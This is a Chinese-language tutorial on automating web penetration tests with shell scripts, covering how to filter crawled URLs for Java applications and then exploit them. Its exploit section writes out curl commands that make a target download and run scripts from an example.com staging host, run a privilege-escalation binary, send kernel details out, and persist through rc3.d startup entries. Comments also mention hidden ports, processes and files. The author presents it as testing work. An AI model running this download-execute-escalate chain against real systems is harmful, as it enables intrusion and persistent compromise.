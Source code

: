 ## Web自动化渗透之Shell脚本
如果不会shell编程，这里需要自己自学shell编程。
使用shell脚本编写流水线操作。

### 0x00 理解自动化
自动化渗透，也就是流水线般的去做渗透测试。
在个人看来渗透主要分三步骤，什么样的需求①，达到什么样的目的②，最终结果③，渗透的主要三个步骤。
以目前的技术要达到完全的自动化，还无法做到，只能做到针对性强，非常有局限的自动化。
但是可以通过需求、目的、结果来进行建模，就类似搭积木一样，可以应对大部分情况。

### 0x01 需求
分析漏洞需求，在满足什么样的条件触发exp。比如Java反序列化漏洞，明确的知道哪些应用程序使用了该
技术，通过特征过滤包含这些应用程序特征的程序。
例如，我需要过滤`*.do,*.action,*.jsp`后缀的名字来确认是否使用java编写的应用程序
```shell
#!/bin/sh
#过滤所有URL,对java应用程序进行渗透测试
URL=`cat 1.log | grep -Eo "<a[^>]+?href=[\"']?([^\"']+)[\"']?[^>]*>([^<]+)</a>"`
#过滤do或者jsp或者action的query请求。
JSP=`echo $URL | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+([^\.jsp]+)\.jsp"`
DO=`echo $URL | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+\.do([\?]?[^\"']+)?"`

ANYLIST=()
LIST=$JSP$DO
foreach(){
	for url in $LIST;do
		#执行目标
	done
	echo 
	return 0;
}

```


### 0x02 目的
满足需求后执行我们的目的，也就是漏洞利用，但是在利用之前，要确定，如果成功，需要做什么事情，
那么，一般黑帽做到这步的情况，就是提权留后门，由于我们只做测试检测，所以，在这里，就只要求服务器向
我们的中间服务器发送一个带kernel参数的POST，来确定目标系统的版本。
```shell
#!/bin/sh
#执行目标
exp $url
#exp的实现，如java的各种漏洞，java反序列化，struts2等漏洞（如果是此类型漏洞可能还需要进一步
#确定，如果无法确认，放入任意漏洞检测队列）。
#构造请求包，执行系统调用，大致实现是
while read line
do 
    data="$data${line}"
done < data.dat
exp(){
	#构造一个请求包，向服务器发送请求。目标服务器下载中间服务器脚本程序执行。
	#data的数据类似data=curl -k -L http://www.example.com/curl-exp.sh -o curl-exp.sh && 
	#chmod +x curl-exp.sh && /bin/sh curl-exp.sh 
	curl -k -L $1 -F "data=$data"
}
#实现一个隐藏端口，隐藏进程，隐藏文件的`linux mod`,
#由于这里做检测，所以只实现一个http请求。
#daemon-exp.sh
daemon_exp(){
	KK=`uname -a`
	curl -k -L -F "kernel="$KK http://www.example.com/push.php 
}
#编写`shell init`放到启动项里根据不同情况触发，如：`/etc/init/[rc0.d,rc1.d,rc2.d,rc3.d,rc4.d]`
#把daemon-exp.sh放入rc3.d开机启动里面；

#运行程序
#curl_exp.sh

CURL=`which curl`
if [ "$CURL" = "" ];then
	exit 1;
fi
if [ $? != 0 ];then
	exit 1;
fi

#此处下载执行隐藏端口，隐藏进程，隐藏文件的命令脚本
curl -k -L http://www.example.com/daemon-exp.sh -o daemon-exp.sh #shell-init script
#su
curl -k -L http://www.example.com/su.out -o su.out #执行提权，用最高权限执行shell脚本
chmod +x $(pwd)/su.out
./su.out daemon-exp.sh
exit 0;


```

### 0x03 结果
验证中间服务器收到的请求，确定目标机存在漏洞。
查看已经成功运行我们的exp脚本服务器。

PS：
①需求，这里指满足条件。
②目的，在满足需求的情况下，是否要拿到root权限，留下后门等。
③结果，完成所有目的操作，无任何异常或者错误。


